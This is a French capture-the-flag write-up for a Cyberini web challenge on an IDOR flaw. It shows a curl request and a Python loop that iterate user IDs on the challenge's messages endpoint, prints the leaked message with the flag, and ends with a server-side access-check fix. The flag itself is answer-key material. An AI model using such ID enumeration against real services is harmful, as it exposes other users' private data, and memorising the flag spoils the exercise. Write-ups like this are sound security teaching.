

## 📌 Aperçu du Challenge
- **Plateforme :** Cyberini CTF
- **Catégorie :** Web
- **Vulnérabilité :** IDOR (Insecure Direct Object Reference)
- **Flag :** `IDOR_leak_success`

## Analyse de la vulnérabilité

L'inspection du code source HTML révèle l'exécution d'un script JavaScript qui va récupérer les messages via une API :

```javascript
const urlParams = new URLSearchParams(window.location.search);
const userId = urlParams.get('id') || 1;

fetch(`messages.php?id=${userId}`)
````

Par défaut, ce sont les messages de l'utilisateur `id=1` qui sont chargés.

Une faille **IDOR** se produit lorsqu'il y a un manque de contrôle d'accès (authentification/autorisation) sur la ressource demandée. Ici, n'importe qui peut interroger l'API avec l'ID d'un autre utilisateur et lire ses messages privés.

## 🛠️ Exploitation

### Méthode Manuelle

En incrémentant l'ID manuellement dans l'URL de l'API via `curl`, on découvre le flag sur le compte de l'utilisateur n°3 :

```bash
curl [https://cyberini.com/ctfs/assets/idor/messages.php?id=3](https://cyberini.com/ctfs/assets/idor/messages.php?id=3)
```

**Résultat :**

`[{"from":"Admin","message":"Bonjour Utilisateur 3. Le FLAG est : IDOR_leak_success"}]`

### Automatisation avec Python

Pour éviter de tester les ID à la main, voici un script de force brute qui va chercher le mot "FLAG" en itérant sur les ID :

```python
import requests
import time

base_url = "[https://cyberini.com/ctfs/assets/idor/messages.php?id=](https://cyberini.com/ctfs/assets/idor/messages.php?id=)"

for user_id in range(1, 21):
    url = f"{base_url}{user_id}"
    response = requests.get(url)
    
    if "FLAG" in response.text:
        print(f"[+] Flag trouvé (ID {user_id}): {response.text}")
        break
    time.sleep(0.5)
```



## 🔒 Notions Clés

> **A retenir**
> 
> - **IDOR :** Toujours vérifier si les identifiants passés en paramètre (`?id=`, `?user=`, `?file=`) peuvent être modifiés pour accéder aux données d'autres utilisateurs.
>     
> - **Prévention :** Côté serveur, il faut toujours vérifier que l'utilisateur qui fait la requête a bien les droits sur l'ID de la ressource demandée (ex: `if($_SESSION['user_id'] != $_GET['id']) { die("Accès refusé"); }`).
>
